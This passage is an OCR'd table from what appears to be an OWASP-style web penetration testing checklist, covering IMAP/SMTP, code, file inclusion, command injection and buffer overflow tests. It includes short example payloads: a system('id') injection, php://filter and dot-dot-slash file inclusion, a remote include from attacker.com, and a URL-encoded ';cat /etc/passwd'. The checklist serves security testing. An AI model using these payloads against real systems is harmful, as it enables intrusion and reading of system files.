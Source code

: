 |OTG-INPVAL-011                             |IMAP/SMTP Injection                                                       |• Identifying vulnerable parameters with special characters<br>(i.e.: \\, ‘, “, @, #, !, |)<br>• Understanding the data flow and deployment structure of the client<br>• IMAP/SMTP command injection (Header, Body, Footer)                                                                                                                                                                                                                                                                                                                                                                                                                                                               |Burp Proxy, ZAP|
|OTG-INPVAL-012                             |Testing for Code Injection                                                |Enter OS commands in the input field.<br>?arg=1; system('id')                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Burp Proxy, ZAP, Liffy, Panoptic|
|                                           |Testing for Local File Inclusion                                          |LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |Burp Proxy, fimap, Liffy|
|                                           |Testing for Remote File Inclusion                                         |RFI from malicious URL<br>?page.php?file=http://attacker.com/malicious\_page                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |Burp Proxy, fimap, Liffy|
|OTG-INPVAL-013                             |Testing for Command Injection                                             |Understand the application platform, OS, folder structure, relative path and execute OS commands on a Web server.<br>%3Bcat%20/etc/passwd<br>test.pdf+|+Dir C:\\                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |Burp Proxy, ZAP, Commix|
|OTG-INPVAL-014                             |Testing for Buffer overflow                                               |• Testing for heap overflow vulnerability<br>• Testing for stack overflow vulnerability<br>• Testing for format string vulnerability                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |Immunity Canvas, Spike, MSF, Nessus|
|                                           |Testing for Heap overflow                                                 |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |        |